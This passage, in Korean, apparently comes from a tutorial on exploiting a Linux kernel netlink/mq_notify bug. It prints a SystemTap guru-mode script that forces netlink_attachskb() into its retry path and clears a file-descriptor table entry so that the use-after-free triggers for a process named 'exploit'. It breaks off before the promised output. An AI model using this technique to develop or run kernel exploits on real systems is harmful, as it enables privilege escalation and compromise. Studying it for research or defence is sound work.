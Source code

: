 익스플로잇을 실행하기 전에 stap 스크립트를 수정해야 한다. 이제 netlink\_attachskb()를 호출하기 **전에** netlink\_socket (fd=3)을 제거한다. 이는 setsockopt()를 netlink\_attachskb() 진입 후에 호출하면 file descriptor *sock\_fd* 가 인식 불가능(invalid)해질 것이기 때문이다(FDT의 NULL을 가리킨다). 즉 setsockopt()가 "Bad File Descriptor" 에러로 실패할 것이다(= *netlink\_setsockopt()* 엔 도달조차 못함).

그러므로 netlink\_attachskb() 이전이 아닌 리턴할 때 fd "3"을 제거하자:

```stap
# mq_notify_force_crash.stp
#
# Run it with "stap -v -g ./mq_notify_force_crash.stp" (guru mode)

%{
#include <net/sock.h>
#include <net/netlink_sock.h>
#include <linux/fdtable.h>
%}

function force_trigger_before:long (arg_sock:long)
%{
  struct sock *sk = (void*) STAP_ARG_arg_sock;
  struct netlink_sock *nlk = (void*) sk;
  nlk->state |= 1;   // enter the netlink_attachskb() retry path    

  // NOTE: We do not mark the sock as DEAD anymore
%}

function force_trigger_after:long (arg_sock:long)
%{
  struct files_struct *files = current->files;
  struct fdtable *fdt = files_fdtable(files);
  fdt->fd[3] = NULL; // makes the second call to fget() fails
%}


probe kernel.function ("netlink_attachskb")
{
  if (execname() == "exploit")
  {
    force_trigger_before($sk);
  }
}

probe kernel.function ("netlink_attachskb").return
{
  if (execname() == "exploit")
  {
    force_trigger_after(0);
  }
}
```

늘 그랬던 것처럼 probe를 좀 더 추가하여 코드 흐름을 볼 수 있도록 하자. 그럼 다음과 같은 결과를 얻는다:
